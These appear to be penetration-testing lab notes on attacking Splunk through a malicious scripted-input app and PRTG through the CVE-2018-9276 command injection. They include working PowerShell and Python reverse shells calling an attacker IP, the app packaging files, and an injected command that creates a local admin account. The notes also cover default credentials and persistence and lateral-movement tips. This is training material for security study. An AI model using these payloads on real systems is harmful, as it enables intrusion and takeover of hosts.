


- [Attacking Infra and Network Tools](#attacking-infra-and-network-tools)
  - [Splunk - Discover \& Enum](#splunk---discover--enum)
    - [Discovery/Footprinting](#discoveryfootprinting)
    - [Enumeration](#enumeration)
  - [Splunk - Attack](#splunk---attack)
    - [Abusing Built-In Functionality](#abusing-built-in-functionality)
  - [PRTG Network Monitor](#prtg-network-monitor)
    - [Discovery/Footprinting/Enumeration](#discoveryfootprintingenumeration)
    - [Leveraging Known Vulns](#leveraging-known-vulns)

---

# Attacking Infra and Network Tools

## Splunk - Discover & Enum

### Discovery/Footprinting

Splunk is prevalent in internal networks and often runs as root on Linux or SYSTEM on Windows systems. While uncommon, you may encounter Splunkt externally facing at times. Imagine that you uncover a forgotten instance of Splunk in your Aquatone report that has since automatically converted to the free version, which does not require authentication.

The Splunk web server runs by default on port 8000. On older versions of Splunk, the default credentials are ```admin:changeme```, which are conveniently displayed on the login page.



The latest version of Splunk sets credentials during the installation process. If the default credentials do not work, it is worth checking for common weak passwords such as admin, Welcome, Welcome1, Password123, etc.

You can discover Splunk with a quick Nmap service scan. Here you can see that Nmap identified the Splunk httpd service on port 8000 and port 8089, the Splunk management port for communication with the Splunk REST API.

```bash
d41y@htb[/htb]$ sudo nmap -sV 10.129.201.50

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-22 08:43 EDT
Nmap scan report for 10.129.201.50
Host is up (0.11s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp open  ssl/http      Splunkd httpd
8080/tcp open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp open  ssl/http      Splunkd httpd
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.22 seconds
```

### Enumeration

The Splunk Enterprise trial converts to a free version after 60 days, which doesn't require authentication. It is not uncommon for system administrators to install a trial of Splunk to test it out, which is subsequently forgotten about. This will automatically convert to the free version that does not have any form of authentication, introducing a security hole in the environment. Some organizations may opt for the free version due to budget constraints, not fully understanding the implications of having no user/role management.

Once logged in to Splunk, you can browse data, run reports, create dashboards, install applications from the Splunkbase library, and install custom applications.

Splunk has multiple ways of running code, such as server-side Django applications, REST endpoints, scripted inputs, and alerting scripts. A common method of gaining RCE on a Splunk server is through the use of a scripted input. These are designed to help integrate Splunk with data sources such as as APIs or file servers that require custom methods to access. Scripted inputs are intended to run these scripts, with STDOUT provided as input to Splunkt.

As Splunk can be installed on Windows or Linux hosts, scripted inputs can be created to run Bash, PowerShell, or Batch scripts. Also, every Splunk installation comes with Python installed, so Python scripts can be run on any Splunk syste. A quick way to gain RCE is by creating a scripted input that tells Splunk to run a Python reverse shell script.

Aside from this built-in functionality, Splunk has suffered from various public vulns over the years, such as this [SSRF](https://www.exploit-db.com/exploits/40895) that could be used to gain unauthorized access to the Splunk REST API.

## Splunk - Attack

### Abusing Built-In Functionality

You can use [this](https://github.com/0xjpuff/reverse_shell_splunk) Splunk package to assist you. The ```bin``` directory in this repo has examples for Python and PowerShell.

To achieve this, you first need to create a custom Splunk application using the following directory structure.

```bash
d41y@htb[/htb]$ tree splunk_shell/

splunk_shell/
├── bin
└── default

2 directories, 0 files
```

The ```bin``` directory will contain any scripts that you intend to run, and the default directory will have your inputs.conf file. Your reverse shell will be a PowerShell one-liner.

```powershell
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The inputs.conf file tells Splunk which scripts to run and any other conditions. Here you set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input will only run if this setting is present.

```bash
d41y@htb[/htb]$ cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

You need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

```
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Once the files are creaed, you can create a tarball or .spl file.

```bash
d41y@htb[/htb]$ tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

The next step is to choose "Install app from file" and upload the application. Before uploading the malicious custom app, start a listener using Netcat or socat. On the "Upload app" page, click on browse, choose the tarball and click "Upload".

As soon as you upload the application, a reverse shell is received as the status of the application will automatically be switched to "Enabled".

```bash
d41y@htb[/htb]$ sudo nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.50] 53145


PS C:\Windows\system32> whoami

nt authority\system


PS C:\Windows\system32> hostname

APP03


PS C:\Windows\system32>
```

In this case, you got a shell back as NT AUTHORITY/SYSTEM   . If this were a real-world assessment, you could proceed to enumerate the target for creds in the registry, memory, or stored elsewhere on the file system to use for lateral movement within the network. If this was your initial foothold in the domain environment, you could use this access to begin enumerating the AD domain.

If you were dealing with a Linux host, you would need to edit the rev.py Python script before creating the tarball and uploading the custom malicious app. The rest of the process would be the same, and you would get a reverse shell connection on your Netcat listener and be off to the races.

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

If the compromised Splunk host is a deployment server, it will likely be possible to achieve RCE on any host with Universal Forwarders installed on them. To push a reverse shell out to other hosts, the application must be placed in the ```$SPLUNK_HOME/etc/deployment-apps``` directory on the compromised host. In a Windows-heavy environment, you will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.

## PRTG Network Monitor

... is agentless network monitor software. It can be used to monitor bandwith usage, uptime and collect statistics from various hosts, including routers, switches, servers, and more. It works with an autodiscovery mode to scan areas of a network and create a device list. Once this list is created, it can gather further information from the detected devices using protocols such as ICMP, SNMP, WMI, NetFlow, and more. Devices can also communicate with the tool via a REST API. The software runs entirely from an AJAX-based website, but there is a desktop application available for Windows, Linux, and macOS.

### Discovery/Footprinting/Enumeration

You can quickly discover PRTG from an Nmap scan. It can typically be found on common web ports such as 80, 443, or 8080. It is possible to change the web interface port in the Setup section when logged in as an admin.

```bash
d41y@htb[/htb]$ sudo nmap -sV -p- --open -T4 10.129.201.50

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-22 15:41 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.06% done
Nmap scan report for 10.129.201.50
Host is up (0.11s latency).
Not shown: 65492 closed ports, 24 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  ssl/http      Splunkd httpd
8080/tcp  open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp  open  ssl/http      Splunkd httpd
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.17 seconds
```

From the Nmap scan above, you can see the service ```Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)``` detected on port 8080.

PRTG also shows up in the EyeWitness scan. Here you can see that EyeWitness lists the defaul credentials ```prtgadmin:prtgadmin```. They are typically pre-filled on the login page, and you often find them unchanged.



Once you have discovered PRTG, you can confirm by browsing to the URL and are presented with the login page.

From the enumeration you performed so far, it seems to be PRTG version 17.3.33.2830 and is likely vulnerable to CVE-2018-9276 which is an authenticated command injection in the PRTG System Administrator web console for PRTG Network Monitor before version 18.2.39. Based on the version reported by Nmap, you can assume that you are dealing with a vulnerable version. Using cURL you can see that the version number is indeed 17.3.33.283.

```bash
d41y@htb[/htb]$ curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version

  <link rel="stylesheet" type="text/css" href="/css/prtgmini.css?prtgversion=17.3.33.2830__" media="print,screen,projection" />
<div><h3><a target="_blank" href="https://blog.paessler.com/new-prtg-release-21.3.70-with-new-azure-hpe-and-redfish-sensors">New PRTG release 21.3.70 with new Azure, HPE, and Redfish sensors</a></h3><p>Just a short while ago, I introduced you to PRTG Release 21.3.69, with a load of new sensors, and now the next version is ready for installation. And this version also comes with brand new stuff!</p></div>
    <span class="prtgversion">&nbsp;PRTG Network Monitor 17.3.33.2830 </span>
```

Your first attempt to log in with the default credentials fails, but a few tries later, you are in with ```prtgadmin:Password123```.

### Leveraging Known Vulns

Once logged in, you can explore a bit, but you know this is likely vulnerable to command injection flaw. This [blog post](https://www.codewatch.org/blog/?p=453) by the individual who discovered the flaw does a great job of walking through the initial discovery process and how they discovered it. When creating a new notification, the ```Parameter``` field is passed directly into a PowerShell script without any type of input sanitization.

To begin, mouse over "Setup" in the top right and then the "Account Settings" menu and finally click on "Notifications". Next, click on "Add new notification".

Give the notification a name and scroll down and tick the box next to "EXECUTE PROGRAM". Under "Program File", select "Demo exe notification - outfile.ps1" from the drop-down. Finally, in the parameter field, enter a command. For your purposes, you will add a new local admin user by entering ```test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add```. During an actual assessment, you may want to do something that does not change the system, such as getting a reverse shell to your favorite C2. Finally, click on the "Save" button.

After clicking "Save", you will be redirected to the "Notifications" page and see your new notification named "pwn" in the list.

Now, you could have scheduled the notification to run at a later time when setting it up. This could prove handy as a persistence mechanism during a long-term engagement and is worth taking note of. Schedules can be modified in the account settings menu if you want to set it up to run at a specific time every day to get your connection back or something of that nature. At this point, all that is left is to click the "Test" button to run your notification and execute the command to add a local admin user. After clicking "Test" you will get a pop-up that says "EXE notification is queued up". If you receive any sort of error message here, you can go back and double-check the notification settings.

Since this is a blind command execution, you won't get any feedback, so you'd have to either check your listener for a connection back or, in your case, check to see if you can authenticate to the host as a local admin. You can use CME to confirm local admin access. You could also try to RDP to the box, access over WinRM, or use a tool such as evil-WinRM or something from the impacket toolkit.

```bash
d41y@htb[/htb]$ sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG! 

SMB         10.129.201.50   445    APP03            [*] Windows 10.0 Build 17763 (name:APP03) (domain:APP03) (signing:False) (SMBv1:False)
SMB         10.129.201.50   445    APP03            [+] APP03\prtgadm1:Pwn3d_by_PRTG! (Pwn3d!)
```

And you confirm local admin access on the target!